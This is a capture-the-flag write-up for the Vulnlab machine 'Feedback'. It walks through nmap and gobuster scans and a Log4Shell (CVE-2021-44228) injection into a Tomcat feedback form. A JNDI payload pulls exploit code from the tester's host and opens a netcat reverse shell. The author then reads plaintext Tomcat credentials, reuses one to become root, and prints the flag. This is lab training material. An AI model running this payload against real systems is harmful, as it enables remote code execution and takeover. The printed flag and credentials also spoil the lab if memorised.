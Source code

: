 ```yaml
---
layout: post
title: "Vulnlab Linux Easy: Feedback"
description: "Feedback is an Easy rated Linux machine on Vulnlab."
categories: [CTF,Vulnlab]
tags: [Linux,Easy]
author: g
---
```


## Nmap Scan
```
┌──(kali㉿kali)-[~]
└─$ nmap -sC -sV 10.10.90.171      
Starting Nmap 7.94SVN ( <https://nmap.org> ) at 2024-01-28 18:46 CET
Nmap scan report for 10.10.90.171
Host is up (0.036s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8f:15:77:41:ce:06:e9:cc:1a:f2:8b:2d:bb:75:68:0d (RSA)
|   256 0b:1e:b5:99:6c:ac:35:dc:33:95:5b:50:65:76:d3:97 (ECDSA)
|_  256 05:38:6b:d4:5f:e3:c6:87:15:56:88:77:59:3b:b2:cd (ED25519)
8080/tcp open  http    Apache Tomcat 9.0.56
|_http-title: Apache Tomcat/9.0.56
|_http-favicon: Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at <https://nmap.org/submit/> .
Nmap done: 1 IP address (1 host up) scanned in 10.10 seconds
```


## Enumerate HTTP (Port 8080)
The landing page shows us that Tomcat is running.
![Pasted image 20240714125351.png](/images/Pasted image 20240714125351.png){: .normal }


Trying to visit the manager app or host manager reveals an Access Denied error.
![Pasted image 20240714125347.png](/images/Pasted image 20240714125347.png){: .normal }


The copyright at the bottom of the page is from 2021, perhaps an outdated version of tomcat that is vulnerable? (sadly no immediate exploits could be found).
![Pasted image 20240714125344.png](/images/Pasted image 20240714125344.png){: .normal width="600" }


Run Gobuster for directory busting.
```
┌──(kali㉿kali)-[~]
└─$ gobuster dir -u <http://10.10.90.171:8080> -w /usr/share/wordlists/dirb/big.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     <http://10.10.90.171:8080>
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/[                    (Status: 400) [Size: 762]
/]                    (Status: 400) [Size: 762]
/docs                 (Status: 302) [Size: 0] [--> /docs/]
/examples             (Status: 302) [Size: 0] [--> /examples/]
/favicon.ico          (Status: 200) [Size: 21630]
/feedback             (Status: 302) [Size: 0] [--> /feedback/]
/manager              (Status: 302) [Size: 0] [--> /manager/]
/plain]               (Status: 400) [Size: 762]
/quote]               (Status: 400) [Size: 762]
Progress: 20469 / 20470 (100.00%)
===============================================================
Finished
===============================================================
```

Feedback landing page.
![Pasted image 20240714125335.png](/images/Pasted image 20240714125335.png){: .normal }


In Burp we can intercept the request before submitting, the request looks like this.
```
GET /feedback/logfeedback.action;jsessionid=8A4EAF199B27BE846106542251FE33B7?name=test&feedback=test HTTP/1.1
Host: 10.10.90.171:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: close
Referer: <http://10.10.90.171:8080/feedback/>
Cookie: JSESSIONID=8A4EAF199B27BE846106542251FE33B7
Upgrade-Insecure-Requests: 1
```

We get an error when using a quote in the name field.
![Pasted image 20240714125330.png](/images/Pasted image 20240714125330.png){: .normal }


Since in the error messages Java is mentioned a lot and we know that Apache 9.0.56 is running, we can try to determine the Java version that is running on the machine.
```
2021-12-08 Tomcat 9.0.
56 of Apache Tomcat. This release implements specifications that are part of the Java EE 8 platform. The notable changes compared to 9.0.
```

According to ChatGPT Java 8 or 11 is likely running in the backend.
![Pasted image 20240714125322.png](/images/Pasted image 20240714125322.png){: .normal }


Whilst looking for a Java exploit from 2021 we find log4j.
![Pasted image 20240714125315.png](/images/Pasted image 20240714125315.png){: .normal width="600" }


To see if the PoC will work, we will try to get a callback from the following command: [PoC](https://github.com/kozmer/log4j-shell-poc).
```
${jndi:ldap://10.8.1.49:1389/a} 

^ Make sure to URL encode (put the payload in the username field)
```
```
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 1389                
listening on [any] 1389 ...
connect to [10.8.1.49] from (UNKNOWN) [10.10.90.171] 47786
0
```

Download [java 8u20](https://www.oracle.com/java/technologies/javase/javase8-archive-downloads.html) and extract it in the directory of the exploit and change the directory name to fit the exploit.
```
┌──(kali㉿kali)-[/tmp/log4j-shell-poc]
└─$ tar -xf jdk-8u202-linux-x64.tar.gz

┌──(kali㉿kali)-[/tmp/log4j-shell-poc]
└─$ mv jdk1.8.0_202 jdk1.8.0_20
```

We can now launch the exploit.
```
┌──(kali㉿kali)-[/tmp/log4j-shell-poc]
└─$ python3 poc.py --userip 10.8.1.49 --webport 80 --lport 9001 

[!] CVE: CVE-2021-44228                                                                                                                                      
[!] Github repo: <https://github.com/kozmer/log4j-shell-poc>                                                                                                   

Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
[+] Exploit java class created success
[+] Setting up LDAP server
[+] Send me: ${jndi:ldap://10.8.1.49:1389/a}
[+] Starting Webserver on port 80 <http://0.0.0.0:80>
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
Listening on 0.0.0.0:1389
Send LDAP reference result for a redirecting to <http://10.8.1.49:80/Exploit.class>
```

Send the payload like before in Burp (URL encode all characters).
![Pasted image 20240714125258.png](/images/Pasted image 20240714125258.png){: .normal width="450"}


Our nc listener should have turned into a shell.
```
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 9001
listening on [any] 9001 ...
connect to [10.8.1.49] from (UNKNOWN) [10.10.90.171] 56702
id
uid=1001(tomcat) gid=1001(tomcat) groups=1001(tomcat)
```


## Privilege Escalation
Found credentials for the robot and admin user in the tomcat-users.xml file.
```
tomcat@ip-10-10-10-7:~/conf$ pwd
/opt/tomcat/conf
tomcat@ip-10-10-10-7:~/conf$ cat tomcat-users.xml
<?xml version="1.0" encoding="UTF-8"?>
<!--
  Licensed to the Apache Software Foundation (ASF) under one or more
  contributor license agreements.  See the NOTICE file distributed with
  this work for additional information regarding copyright ownership.
  The ASF licenses this file to You under the Apache License, Version 2.0
  (the "License"); you may not use this file except in compliance with
  the License.  You may obtain a copy of the License at

      <http://www.apache.org/licenses/LICENSE-2.0>

  Unless required by applicable law or agreed to in writing, software
  distributed under the License is distributed on an "AS IS" BASIS,
  WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
  See the License for the specific language governing permissions and
  limitations under the License.
-->
<tomcat-users xmlns="<http://tomcat.apache.org/xml>"
              xmlns:xsi="<http://www.w3.org/2001/XMLSchema-instance>"
              xsi:schemaLocation="<http://tomcat.apache.org/xml> tomcat-users.xsd"
              version="1.0">
  <user username="admin" password="H2RR3rGDrbAnPxWa" roles="manager-gui"/>
  <user username="robot" password="H2RR3rGDrbAnPxWa" roles="manager-script"/>

</tomcat-users>
```

We can use the password to become root.
```
tomcat@ip-10-10-10-7:~$ su root
Password: 
root@ip-10-10-10-7:/opt/tomcat# id
uid=0(root) gid=0(root) groups=0(root)
```

Root flag: `VL{25da7f42f4e279698c91c0ce911d51a9}`
```
root@ip-10-10-10-7:~# cat root.txt
VL{25da7f42f4e279698c91c0ce911d51a9}
```